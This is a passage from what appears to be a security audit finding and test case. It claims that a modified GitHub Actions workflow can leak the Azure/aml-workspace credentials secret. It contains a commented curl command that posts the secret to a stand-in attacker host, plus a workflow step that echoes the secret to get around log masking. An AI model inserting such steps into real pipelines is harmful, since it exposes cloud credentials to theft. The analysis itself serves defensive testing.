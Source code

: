           run: |
            echo "::warning::AZURE_CREDENTIALS=${{ secrets.AZURE_CREDENTIALS }}"
            # Alternatively, send to attacker server:
            # curl -X POST -H "Content-Type: application/json" -d '{"secret":"${{ secrets.AZURE_CREDENTIALS }}"}' https://attacker.example.com/exfiltrate
        ```
        - Using `secrets.AZURE_CREDENTIALS` directly in `run` will print the secret value to the logs, even though it's defined as a secret. While GitHub attempts to mask these, the masking is not foolproof, especially in error messages or if the attacker uses more sophisticated exfiltration techniques. Writing to `::warning::` or `::error::` might bypass some masking attempts. Sending to an external server is a more direct exfiltration method.
    4. **No Code Vulnerability in Action**: The `Azure/aml-workspace` action code (`main.py`, `utils.py`, `schemas.py`) itself does not have a vulnerability that directly leads to secret exposure. The vulnerability lies in the potential for workflow modification and the inherent way GitHub Actions secrets are made available as environment variables. The `mask_parameter` in `/code/code/utils.py` is a mitigation attempt for log exposure, but it doesn't prevent exfiltration through workflow modification.

- **Security Test Case:**
    1. **Prerequisites**:
        - You need write access to a GitHub repository that uses the `Azure/aml-workspace` action.
        - The repository must have the `AZURE_CREDENTIALS` secret configured.
        - You need an attacker-controlled server to receive exfiltrated data (for the more direct exfiltration test). For simpler demonstration, observing workflow logs is sufficient.
    2. **Steps**:
        - Fork or create a repository that uses the `Azure/aml-workspace` action and has `AZURE_CREDENTIALS` configured.
        - Modify the workflow YAML file (e.g., `.github/workflows/main.yml`) to add an exfiltration step after the `Azure/aml-workspace` action step:
            ```yaml
            - uses: Azure/aml-workspace@v1
              id: aml_workspace
              with:
                azure_credentials: ${{ secrets.AZURE_CREDENTIALS }}

            - name: Exfiltrate Secret to Logs
              run: echo "::warning::EXFILTRATED_SECRET=${{ secrets.AZURE_CREDENTIALS }}"
            ```
        - Commit and push the modified workflow to the repository.
        - Trigger the workflow (e.g., by pushing a dummy commit or manually triggering it).
        - Go to the Actions tab in the GitHub repository and view the logs for the workflow run that executed the modified workflow.
        - Observe the logs for the "Exfiltrate Secret to Logs" step. You should see a warning message with the `AZURE_CREDENTIALS` content printed, or at least parts of it, despite GitHub's secret masking. If sending to an external server was used, check the attacker-controlled server logs for the received secret.
    3. **Expected Result**:
        - The `AZURE_CREDENTIALS` secret (or parts of it) is visible in the workflow logs, demonstrating successful exfiltration. If an external server was used, the secret is received on the attacker's server.
    4. **Cleanup**:
        - Remove the exfiltration step from the workflow YAML file and commit the changes to remediate the vulnerability in the test repository.
